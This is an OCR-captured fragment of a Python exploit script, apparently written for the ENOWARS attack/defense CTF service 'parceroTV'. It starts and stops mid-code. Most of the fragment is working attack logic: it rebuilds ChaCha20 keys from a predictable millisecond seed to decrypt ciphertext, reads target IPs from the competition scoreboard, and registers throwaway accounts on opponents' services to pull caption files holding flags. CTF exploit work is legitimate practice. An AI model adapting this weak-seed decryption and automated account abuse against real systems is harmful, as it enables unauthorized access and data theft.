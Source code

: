 ```python
        ms = 1
    seed = ms.to_bytes(8, "little") + b"\x00" * 24

    key = seed
    nonce = b"\x00" * 16
    cipher = Cipher(algorithms.ChaCha20(key, nonce), mode=None, backend=default_backend()).encryptor()

    keystream = cipher.update(b"\x00" * len(cipher_bytes) * 8)

    plain_bytes = bytearray()
    for i, cb in enumerate(cipher_bytes):
        kb = keystream[i * 8]
        plain_bytes.append(cb ^ kb)
    
    return plain_bytes.decode("utf-8", errors="ignore")


session = requests.Session()
session.headers.update({'User-Agent': 'python-httpx/0.23.3', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive'})

def extract_vtt_text(vtt_content: bytes) -> List[bytes]:
    lines = vtt_content.splitlines()
    text_lines = []
    for line in lines:
        if re.match(br'^\d+$', line):
            continue
        if re.match(br'^\d{2}:\d{2}:\d{2}\.\d{3} --> \d{2}:\d{2}:\d{2}\.\d{3}$', line):
            continue
        if line.strip() == b"":
            continue
        if line.startswith(b'WEBVTT'):
            continue
        text_lines.append(line.strip())
    
    # Join all text lines and then split into words
    full_text = b' '.join(text_lines)
    return full_text.split()

assert len(sys.argv) == 2
TEAM_IP = sys.argv[1]
service_name = 'parceroTV'

attacksjson = requests.get(f'https://9.enowars.com/scoreboard/attack.json').json()['services'][service_name][TEAM_IP]
URL = f'http://{TEAM_IP}:7777'

for rnd in attacksjson.items():
    vtt_file = rnd[1]['1'][0]
    username, password = ''.join(random.choices(alph, k=12)), ''.join(random.choices(alph, k=12))

    session.get(URL)
    session.post(URL + '/newuser', data={'username': username, 'password': password})
    session.post(URL + '/checkcredentials', data={'username': username, 'password': password})

    r = session.get(URL + '/get_shorts').json()
    c = None
    for i in r:
        if i['name'] == vtt_file:
            c = i['caption_path']
            break
    
```
